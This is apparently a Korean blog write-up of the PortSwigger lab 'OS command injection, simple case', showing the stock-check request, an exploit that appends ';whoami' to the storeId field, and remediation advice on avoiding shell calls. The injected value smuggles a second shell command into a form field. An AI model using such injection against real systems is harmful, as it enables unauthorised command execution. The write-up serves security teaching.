


+++
date = '2026-09-22T20:30:00+09:00'
draft = false
title = "[Write-up] PortSwigger - OS command injection, simple case"
summary = "재고 조회 요청의 storeId에 명령 구분자를 삽입하고 응답에서 실행 결과를 확인하는 OS Command Injection 풀이"
toc = true
tags = ["OS Command Injection", "PortSwigger", "Apprentice"]
+++

---

## 문제 분석

> **난이도**: `APPRENTICE`  
> **Lab**: [OS command injection, simple case](https://portswigger.net/web-security/os-command-injection/lab-simple)

> 

이 랩은 상품 재고를 조회할 때 사용자가 보낸 상품 ID와 매장 ID를 셸 명령에 포함한다. 명령의 출력이 응답에 그대로 반환되므로, `whoami`를 실행해 결과를 확인하면 문제가 해결된다.

### OS Command Injection 진단

먼저 상품 재고 조회 요청을 확인하면 다음과 같다.

```text
POST /product/stock HTTP/2
Host: 0a1300c0042713d5814e1b8300fb00c8.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
...

productId=1&storeId=1
```

정상 요청에는 재고 수량 `62`가 응답 본문으로 반환된다. 랩 설명에 따르면 이 값은 외부 명령의 출력이므로, `storeId`를 변경했을 때 응답에 추가 출력이 나타나는지 확인한다.

---

## 익스플로잇

`storeId`의 정상 값 `1` 뒤에 `;whoami`를 붙인다. 셸이 `;`를 명령 구분자로 해석하면 재고 조회에 이어 실행 사용자 이름을 출력한다.

```text
POST /product/stock HTTP/2
Host: 0a1300c0042713d5814e1b8300fb00c8.web-security-academy.net
Content-Type: application/x-www-form-urlencoded

productId=1&storeId=1;whoami
```

요청을 전송하면 응답에 `whoami`의 실행 결과인 `peter-IBpHNv`가 반환되며 실습이 완료된다.



---

## 정리

사용자 입력이 셸 명령의 인자로 결합되면서 `;`도 명령 구분자로 해석됐다. 재고 수량을 반환하던 응답에 실행 사용자 이름이 함께 나타난 것으로 추가 명령의 실행을 확인했다.

이처럼 출력이 반환되는 경우에는 정상 응답과 주입 후 응답을 바로 비교할 수 있다. 근본적인 대응은 재고 조회를 내부 API로 처리하거나, 외부 프로그램이 필요하다면 셸을 거치지 않고 검증된 값을 개별 인자로 전달하는 것이다.

유형별 원리와 다른 실습은 [OS Command Injection Lab](/lab/portswigger-os-command-injection/)에 정리했다.
